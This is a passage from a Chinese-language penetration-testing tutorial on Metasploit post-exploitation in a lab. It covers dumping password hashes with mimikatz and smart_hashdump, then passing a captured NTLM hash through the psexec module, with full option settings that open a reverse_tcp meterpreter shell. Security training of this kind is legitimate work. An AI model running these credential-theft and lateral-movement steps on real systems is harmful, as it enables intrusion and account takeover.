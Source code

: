 ![图片24.png](https://i.loli.net/2020/02/02/yZXnjlDPRiMvLp6.png)

然后我们来PassingTheHash!

为什么要拿到管理员的Hash呢？ 在渗透测试的过程中动静太大的话难免引起怀疑和管理员的惊吓，所以要尽可能的减少动静，轻声慢步。抓明文密码可以直接使用mimikatz，也是比较不错的

MIMIKATZ：是法国人Gentil Kiwi编写的一款windows平台下的神器，它具备很多功能，其中最亮的功能是直接从 lsass.exe 进程里获取windows处于active状态账号的明文密码。mimikatz的功能不仅如此，它还可以提升进程权限，注入进程，读取进程内存等等，mimikatz包含了很多本地模块，更像是一个轻量级的调试器

![图片25.png](https://i.loli.net/2020/02/02/94UKzR5EG3Tk6em.png)

Load mimikatz后直接使用mav来抓取hash 不过本例中失败了 应该需要直接给目标机上传正版mimikatz才行 但没有关系 我们还有hashdump

可以使用 run post/windows/gather/smart_hashdump来加载模块 并直接抓取hash 其格式为：用户名:rid:LM-Hash:NTLM -Hash  NTLM相对而言更安全

![图片26.png](https://i.loli.net/2020/02/02/dCOTt7Hf9U5hA4K.png)

它会首先检查当前权限和系统类型：

然后检查是否在域里面 是否是DC

从注册表读取hash 注入lsass进程

如果是server08且有管理员权限 直接getsystem尝试提权

如果是win7且bypass了uac或者uac没开启 那么从注册表读取

03/xp直接getsystem 从注册表读取

小结：hash的抓取尽量在高权限session运行 尽量取得更高权限

然后我们来尝试hash传递 直接使用hash来获取session！  

抓取到的hash为：aad3b435b51404eeaad3b435b51404ee:f832c97158a808944c395b74aed1e38e

我们使用psexec模块 ：exploit/windows/smb/psexec

![图片27.png](https://i.loli.net/2020/02/02/COSd8Nq4GF5mkDx.png)

这个模块需要开启smb服务 也就是445端口 ok我们来设置options

set rhost 192.168.179.132

set SMBUser ningfeng

set SMBPass aad3b435b51404eeaad3b435b51404ee:f832c97158a808944c395b74aed1e38e

set payload windows/meterpreter/reverse_tcp

set LHOST 192.168.179.129

Set LPORT 4444

都设置完毕后直接exploit 即可获取一个高权限session

![图片28.png](https://i.loli.net/2020/02/02/AJER3crNDQ9ZVwf.png)

OK 完毕 本文着重讲解了拿到meterpreter会话后的一系列后渗透操作，从免杀到get hash 对新手来说具有参考性和很强的实践性  

后渗透其实也远远不止这么多 需要探索的依旧很多很多 愿我们一直前行！
